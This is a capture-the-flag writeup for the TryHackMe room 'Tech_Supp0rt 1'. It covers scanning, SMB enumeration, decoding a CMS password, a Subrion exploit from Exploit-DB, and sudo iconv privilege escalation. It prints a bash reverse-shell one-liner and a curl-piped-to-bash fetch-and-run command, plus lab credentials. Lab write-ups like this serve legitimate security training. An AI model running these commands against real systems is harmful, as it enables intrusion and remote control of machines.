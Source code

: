 #  Tech_Supp0rt 1 CTF writeup | Tryhackme.com

Hack a scammer's website and ruin their day.

First scan the ports with rustscan:


![rsc1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/rustscan_1.png)


![rsc1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/rustscan_2.png)

Ports:\
Open 10.10.197.14:22 - SSH\
Open 10.10.197.14:80 - HTTP\
Open 10.10.197.14:139 - NetBIOS\
Open 10.10.197.14:445 - SMB

Now let's inspect this IP in our browser.

![indexhtml](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/indexhtml.png)

It is a basic apache webserver welcome site, but there's probably more hidden underneath. Find it out with gobuster!

![gobuster](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/gobuster.png)

*/test* and */wordpress* are the directories we are looking for here so let's check both of them.

**TEST**\
![test](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/test.png)

Test is basically a static scammer site, can't really click anywhere. I've looked into the source code but besides the images not much seems to be here.
Let's try wordpress maybe we will find more useful stuff there.

**WORDPRESS**\
![wp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/wordpress.png)

Okay so here we could browse all the tabs or be lazy and run gobuster. I did both.

By browsing this directory I found a wordpress admin login site and some Hello World comments by the user named: **support**

Gobuster basically confirmed this

`gobuster dir -u http://10.10.197.14/wordpress -w /usr/share/dirb/wordlists/common.txt -x php,html,txt,sh`

    /license.txt          (Status: 200) [Size: 19915]
    
    /readme.html          (Status: 200) [Size: 7345]
    
    /wp-admin             (Status: 301) [Size: 325] [--> http://10.10.197.14/wordpress/wp-admin/]
    
    /wp-includes          (Status: 301)[Size:328][-->http://10.10.197.14/wordpress/wp-includes/]

I did the same with /test but haven’t found anything useful there

At this point we hit a dead end, so our only remaining option is to check SMB shares and find something (hopefully).

![smb1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/smbclient.png)

![smb2](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/smb2.png)

Success! The first share didn't work but websvr had this interesting enter.txt.\
Cat this out.

`cat enter.txt`

    GOALS

    =====

    1)Make fake popup and host it online on Digital Ocean server
    2)Fix subrion site, /subrion doesn't work, edit from panel
    3)Edit wordpress website



    IMP
    ===
    Subrion creds
    |->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
    Wordpress creds
    |->

Cooked with magical formula suggests that we are dealing with a hashed pw here. First I tried crackstation and hashanalyzer but both attempts failed.\
Cyberchef on the other hand could work perfectly with.. the magic formula.

![chef](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/cyberchef.png)

That was easy, we found a password: **Scam2021**

The note left by the scammer will lead us to our next step if we take it literally. Let's navigate to */subrion/panel*

![subrion](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/subrion%20panel.png)

It is worth noting what version the CMS has. Probably it would be a good idea to search any vulnerabilities (if there are any).\
We found just what we needed:
https://www.exploit-db.com/exploits/49876

**THE EXPLOIT:**
As we already know the username and the password, using this script will be no big problem for us.

![python exploit](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/python%20exploit.png)

With whoami we see that we have user permissions, and an inconvenient shell. We can't really cd or use useful commands as we have no standard output.\
At least we can see what lies in the home directory and what users we have to deal with.

**scamsite** Is our guy.

![usr_scamsite](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/user_scamsite.png)


Ideally we should have a better shell, as this one doesn't operate that great. I used a bash reverse shell for that, while hosting the shell code `bash -i >& /dev/tcp/IP/PORT 0>&1` on a local python webserver.\


`curl <OUR IP>:8000/shell.sh | bash `


![rshell1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/bash%20reverse%20shell.png)

Now that we have a better shell we can run linpeas.sh from our computer:

![lp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/wp_config_PW.png)

We have found suspicious info here. Remember user 'support'? Grab the PW and try to log in with SSH.\
`Use the following credentials:`

    scamsite
    ImAScammerLOL!123!


![sshlogin](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/login%20to%20SSH.png)

Now we are getting close.

`sudo -l` and we see our key to get the root.txt

    User scamsite may run the following commands on TechSupport:
        (ALL) NOPASSWD: /usr/bin/iconv
      
      
After searching it on GTFObins here's what we find:

`LFILE=file_to_read
iconv -f 8859_1 -t 8859_1 "$LFILE"`

![ROOT](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/ROOT..png)



get the root flag
##### author: Dániel Varkoly
